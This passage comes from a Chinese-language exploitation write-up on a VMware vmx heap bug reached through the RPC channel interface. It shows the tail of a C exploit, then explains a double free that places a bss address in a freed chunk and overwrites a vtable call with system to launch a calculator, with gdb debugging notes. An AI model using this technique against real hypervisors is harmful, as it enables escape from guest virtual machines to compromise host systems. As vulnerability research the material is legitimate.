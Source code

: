 ```c
    channel_send_data(chan[3].cookie1,chan[3].cookie2,chan[3].num,8,&pay3,&res);
    channel_send_data(chan[3].cookie1,chan[3].cookie2,chan[3].num,strlen(pay4)+1,pay4,&res);
    run_cmd(s4);
    if(!res){
        printf("fail to set len\n");
        return;
    }
}
void main(){
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    setvbuf(stdin,0,2,0);
    leak();
    printf("text base :%p",text);
    exploit();
}   
```

其中修改了长亭师傅的一个魔数，目的是达到no enhanced。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-8b5cc9e9d5519e804249233cc339cad6311cbed7.png)

其中构造的exploit如下。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-62745268f78c644e67b21e14deae7cda0e266705.png)  
开启四个channel

然后free（0）

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-00e8aa2fa4011e8f00639154c8b15f85401f4144.png)

set之后再次free(0)

此时往channel 1 可以写入bss段的地址。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-1f029b2200ee309814087c541c99b32c5e947019.png)

此时fd被链接进去之后可以直接malloc出来然后改写即可。

此处覆盖的位置为bss段的一处调用

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-f0b3c90d5cbd2ef6d9dc12653e0de4722512a24b.png)

可以看出来这块的虚表调用位置在FE95B0，+8即为FE95B8，所以此处改为system然后第一个参数（FE95C0）改为，弹出计算器的指令即可。

调试
--

打开环境，ssh链接guest，然后sudo gdb ./vmx -q，使用ps -aux | grep vmx找到对应的进程，attach上去，在ssh端口运行exp即可（记得先打断点，我断在了漏洞函数free的地方，方便看chunk）

第一次free前

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-406d37c691e6e5004ec90acb50ec506407d0b61b.png)
